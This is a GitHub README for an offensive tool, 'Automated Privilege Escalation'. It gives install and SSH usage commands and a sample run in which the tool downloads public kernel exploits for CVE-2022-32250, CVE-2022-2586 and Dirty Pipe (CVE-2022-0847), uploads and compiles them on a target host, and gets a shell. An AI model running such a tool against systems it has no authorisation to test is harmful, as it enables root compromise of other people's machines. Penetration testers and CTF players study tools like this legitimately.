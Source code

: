 # Automated Privilege Escalation

## Installation
```bash
git clone https://github.com/Trickhish/automated_privilege_escalation       
cd automated_privilege_escalation     
pip install -r requirements.txt
```

## Use
`usage: python3 autope.py [-h] [--pwd PWD] [--pvk PVK] user@host`

examples:  
  - `python3 autope.py jessie@10.10.184.12 --pwd PaSsWoRd` Connecting to 10.10.184.12 as jessie with a password    
  - `python3 autope.py jessie@10.10.184.12 --pvk ~/.ssh/id_rsa` Connecting to 10.10.184.12 as jessie with a private key

## Run example



https://github.com/Trickhish/automated_privilege_escalation/assets/35201179/86d508c2-99e2-455e-aea3-e1167c3b6f6f



`python3 autope.py jessie@10.10.184.12 --pwd PaSsWoRd`

```
Connecting to jessie@10.10.184.12 with password

Checking local C support ✅

Checking languages support
  ✅ python supported
  ✅ c supported
  ❌ No support for go

🔎 Looking for exploits
Found 8 exploits
  🔎 Looking for a POC for CVE-2022-32250
  Found 2
    Trying 🇨-C https://github.com/theori-io/CVE-2022-32250-exploit
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed
    Trying 🇨-C https://github.com/ysanatomic/CVE-2022-32250-LPE
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed

  🔎 Looking for a POC for CVE-2022-2586
  Found 2
    Trying 🇨-C https://github.com/aels/CVE-2022-2586-LPE
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed
    Trying 🇨-C https://github.com/sniper404ghostxploit/CVE-2022-2586
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - failed
      ⚙️ Trying to compile locally - failed

  🔎 Looking for a POC for CVE-2022-0847
  Found 8
    Trying 🇨-C https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
      📥 Downloading POC
      📤 Uploading POC
      ⚙️ Compiling - succeeded
      Running Shell

```

## Languages support :
- C
- Python
- Go

## To do :
- Add support for Perl
- Enhance script execution
